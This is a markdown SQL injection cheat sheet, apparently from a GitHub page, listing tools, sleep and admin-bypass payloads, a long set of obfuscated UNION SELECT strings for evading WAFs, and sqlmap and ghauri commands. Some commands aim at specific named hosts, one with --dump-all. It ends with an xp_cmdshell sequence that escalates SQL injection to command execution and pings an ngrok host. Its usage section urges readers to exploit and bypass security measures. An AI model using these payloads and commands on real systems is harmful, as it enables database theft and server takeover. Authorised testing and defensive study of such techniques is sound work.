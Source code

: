 
---

### **SQL Injection Resources**

#### **1. Tools**
- **SqliSniper**:
  ```bash
  https://github.com/danialhalo/SqliSniper
  ```
- **Bypass WAF SQLMap**:
  ```bash
  https://github.com/gagaltotal/Bypass-WAF-SQLMAP/blob/master/WAF-SQLMap-Full
  ```

#### **2. Captcha Bypass**
- **HackerOne Report**:
  ```bash
  https://hackerone.com/reports/1018621
  ```

#### **3. SQL Injection Payloads**
- **Gist by v3rlly**:
  ```bash
  https://gist.github.com/v3rlly/6a81e4cb1de1ce00dc30890adf5db0cd?fbclid=IwAR2_cofODxhHoSPdvtNQ-3BdxN5Zyzx78As4DEOFaL281EUdSAfVkN7dl-M
  ```

#### **4. SQLMap Commands**
- **Basic SQLMap Command**:
  ```bash
  sqlmap -u "URL" --random-agent --tamper="between,randomcase,space2comment" -v 2 --dbs --level 5 --risk 3 --batch --smart
  ```
- **Advanced SQLMap Command**:
  ```bash
  sqlmap -u "https://login.wellhive.com/oauth2/default/v1/authorize?client_id=0oah0y4hsmM9UWgZi4h5&code_challenge=_xwMoSpRTma4yDsVmAIqv3kFhUaPM1_89TdG54bMKxE&code_challenge_method=S256&nonce=aeVdd3T7rvLMZBkGsNi1w8zv3Njl6BFhl6Igpblqbzx4eETCxzcK2HhBczzCZvpl&redirect_uri=https%3A%2F%2Fapp.wellhive.com%2Flogin%2Fcallback&response_type=code&state=HXwRnNUaVjQlrDyXuKZBCU0xXr1nxnWMLfDXQ7WVUOUDbbeaULFVCKe1V2SLkGpy&scope=openid%20email" --hex --skip-waf --dbs --risk 3 --level 5 --current-db Altibase --skip-waf --random-agent
  ```

#### **5. SQL Injection Techniques**
- **Defeating Length Filters**:
  ```bash
  https://kuldeep.io/posts/defeating-length-filters-to-dump-the-database-sqli/
  ```
- **MySQL Port Open**:
  ```bash
  https://medium.com/@konqi/exploiting-grafana-to-achieve-remote-command-execution-5eb0f99cb107
  ```
- **Sleep Payload**:
  ```bash
  - 0’XOR(if(now()=sysdate(),sleep(6),0))XOR’Z
  - 63770’XOR(if(now()=sysdate(),sleep(6),0))XOR’Z
  - a%3C%22+UNION+SELECT+SLEEP(20);--+-
  
  ```
  
- **PortSwigger SQL Injection Cheat Sheet**:
  ```bash
  https://portswigger.net/web-security/sql-injection/cheat-sheet
  ```
- **NotSoSecure SQL Injection Lab**:
  ```bash
  https://notsosecure.com/sql-injection-lab
  ```

#### **6. SQL Injection Payloads**
- **Information Schema**:
  ```bash
  '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
  ```
- **Admin Bypass**:
  ```bash
  admin%bf'or+1=1+--+&
  ```
- **XOR Sleep Payload**:
  ```bash
  'XOR(if(now()=sysdate(),sleep(33),0))OR'
  ```
- **Sitemap SQL Injection**:
  ```bash
  target[.]com/sitemap.xml?offset=1;SELECT IF((8303>8302),SLEEP(9),2356)#
  ```
- **SQLMap with Tamper**:
  ```bash
  sqlmap -r req3.txt -p commitment --force-ssl --level 5 --risk 3 --dbms=”MYSQL” --hostname --current-user --current-db --dbs --tamper=between --no-cast
  ```

#### **7. Bypass SQL Union Select**
- **Union Select Bypass Payloads**:
  ```bash
  /*!50000%55nIoN*/ /*!50000%53eLeCt*/
  %55nion(%53elect 1,2,3)-- -
  +union+distinct+select+
  +union+distinctROW+select+
  /**//*!12345UNION SELECT*//**/
  /**//*!50000UNION SELECT*//**/
  /**/UNION/**//*!50000SELECT*//**/
  /*!50000UniON SeLeCt*/
  union /*!50000%53elect*/
  +#uNiOn+#sEleCt
  +#1q%0AuNiOn all#qa%0A#%0AsEleCt
  /*!%55NiOn*/ /*!%53eLEct*/
  /*!u%6eion*/ /*!se%6cect*/
  +un/**/ion+se/**/lect
  uni%0bon+se%0blect
  %2f**%2funion%2f**%2fselect
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  REVERSE(noinu)+REVERSE(tceles)
  /*--*/union/*--*/select/*--*/
  union (/*!/**/ SeleCT */ 1,2,3)
  /*!union*/+/*!select*/
  union+/*!select*/
  /**/union/**/select/**/
  /**/uNIon/**/sEleCt/**/
  +%2F**/+Union/*!select*/
  /**//*!union*//**//*!select*//**/
  /*!uNIOn*/ /*!SelECt*/
  +union+distinct+select+
  +union+distinctROW+select+
  uNiOn aLl sElEcT
  UNIunionON+SELselectECT
  /**/union/*!50000select*//**/
  0%a0union%a0select%09
  %0Aunion%0Aselect%0A
  %55nion/**/%53elect
  uni<on all="" sel="">/*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
  %252f%252a*/UNION%252f%252a /SELECT%252f%252a*/
  %0A%09UNION%0CSELECT%10NULL%
  /*!union*//*--*//*!all*//*--*//*!select*/
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1% 2C2%2C
  /*!20000%0d%0aunion*/+/*!20000%0d%0aSelEct*/
  +UnIoN/*&a=*/SeLeCT/*&a=*/
  union+sel%0bect
  +uni*on+sel*ect+
  +(UnIoN)+(SelECT)+
  +(UnI)(oN)+(SeL)(EcT)
  +’UnI”On’+'SeL”ECT’
  +uni on+sel ect+
  +/*!UnIoN*/+/*!SeLeCt*/+
  /*!u%6eion*/ /*!se%6cect*/
  uni%20union%20/*!select*/%20
  union%23aa%0Aselect
  /**/union/*!50000select*/
  /^.*union.*$/ /^.*select.*$/
  /*union*/union/*select*/select+
  /*uni X on*/union/*sel X ect*/
  +un/**/ion+sel/**/ect+
  +UnIOn%0d%0aSeleCt%0d%0a
  UNION/*&test=1*/SELECT/*&pwn=2*/
  un?<ion sel="">+un/**/ion+se/**/lect+
  +UNunionION+SEselectLECT+
  +uni%0bon+se%0blect+
  %252f%252a*/union%252f%252a /select%252f%252a*/
  /%2A%2A/union/%2A%2A/select/%2A%2A/
  %2f**%2funion%2f**%2fselect%2f**%2f
  union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
  /*!UnIoN*/SeLecT+
  %6c%75%33%6b%79%31%33' AND 1=CAST((SELECT version()) AS int) --
  ```

#### **8. Automated SQL Injection Testing**
- **Ghauri**:
  ```bash
  cat sql | while read host do;do ghauri -u $host --batch --level=3  -b --current-user --current-db --hostname --dbs ;done
  ```
- **SQLMap Batch Testing**:
  ```bash
  sqlmap -m sql -batch --random-agent --level 5 --risk 3
  ```
- **SQLMap with Tamper**:
  ```bash
  python3 /opt/sqlmap/sqlmap -u "https://eneftee-black[.]market/news.php?id=2" --batch --dbms=mysql --random-agent --level 5 --risk 3 --tamper=space2comment --dump-all --threads 10
  ```

---

### **How to Use This Information**
1. **Tools**:
   - Use tools like SqliSniper and SQLMap to automate SQL injection detection and exploitation.

2. **Captcha Bypass**:
   - Study the HackerOne report to understand how to bypass CAPTCHA mechanisms.

3. **Payloads**:
   - Experiment with different SQL injection payloads to bypass WAFs and other security measures.

4. **Techniques**:
   - Use advanced techniques like UNION SELECT bypass and length filter bypass to exploit SQL injection vulnerabilities.

5. **Automation**:
   - Automate SQL injection testing using scripts and tools like Ghauri and SQLMap.
### SQLI to RCE

```bash
; EXEC sp_configure ‘show advanced options’, 1; RECONFIGURE; EXEC sp_configure ‘xp_cmdshell’, 1; RECONFIGURE; —

;EXEC xp_cmdshell ‘ping xxxxxxxx.ngrok.io’; —

https://systemweakness.com/sql-injection-to-remote-command-execution-rce-dd9a75292d1d
```


---
- https://github.com/jhaddix/tbhm/blob/master/06_SQLi.md

